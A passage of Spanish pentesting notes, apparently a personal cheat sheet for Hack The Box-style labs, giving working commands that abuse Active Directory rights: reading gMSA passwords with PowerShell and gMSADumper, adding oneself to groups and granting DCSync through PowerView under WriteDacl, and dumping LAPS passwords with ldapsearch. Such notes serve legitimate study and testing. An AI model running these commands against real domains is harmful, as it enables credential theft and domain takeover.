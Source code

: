 - Ahora definimos la variable `$SecurePassword`:

```powershell
$SecPassword = (ConvertFrom-ADManagedPasswordBlob $GMSA).SecureCurrentPassword
```

- Y después definimos `$Cred`:

```powershell
$Cred = New-Object System.Management.Automation.PSCredential '<DOMINIO>\<USUARIO>', $SecPassword
```

Si todo va correctamente deberíamos poder ejecutar comandos como el usuario en cuestión:

```powershell
Invoke-Command -ComputerName <HOSTNAME> -Credential $Cred -Command { <COMMAND> }
```

Cabe destacar que no tenemos porqué hacerlo manual, existen herramientas como [gMSADumper](https://github.com/micahvandeusen/gMSADumper) que nos automatizan esto:

```shell
python3 gMSADumper.py -u '<USUARIO>' -p '<CONTRASEÑA>' -d <DOMINIO> -l <DOMINIO_LDAP>
```

>En el dominio **LDAP** (`-l`) puedes poner simplemente le dominio normal ya que no es común tener otro dominio aparte para solamente **LDAP**.

Ejecutando esto nos devolverá el hash NT del usuario sobre el que tenemos privilegios de `ReadGMSAPassword`, el cual podemos comprobar si es válido con `crackmapexec`. 

## WriteDacl

### Sobre un grupo

Esto es una tontería, es simplemente con el comando `net` que nos podemos añadir al grupo sobre el que tenemos este derecho:

```powershell
net group <GRUPO> <USUARIO> /add 
```

Lo mismo pasa con el derecho **WriteOwner**, no se actualiza correctamente así que cierra la sesión (WinRM o SSH) y vuleve a entrar.
También nos podemos asignar DCSync usando el módulo `PowerView`. Antes necesitaremos haber exportado una variable `$cred` como se explica en el archivo `PowerShell things`:

```powershell
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<DOMINIO>,DC=<.LOCAL,.COM,.HTB, etc" -PrincipalIdentity <USUARIO> -Rights DCSync
```

## ReadLAPSPassword

Teniendo este derecho sobre un usuario/grupo, podemos usar la herramienta `ldapsearch`:

```shell
ldapsearch -x -H ldap://<IP> -D <USUARIO>@<CONTRASEÑA> -w '<CONTRASEÑA>' -b "dc=<DOMINIO>,dc=<:LOCAL,.COM,.HTB>" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
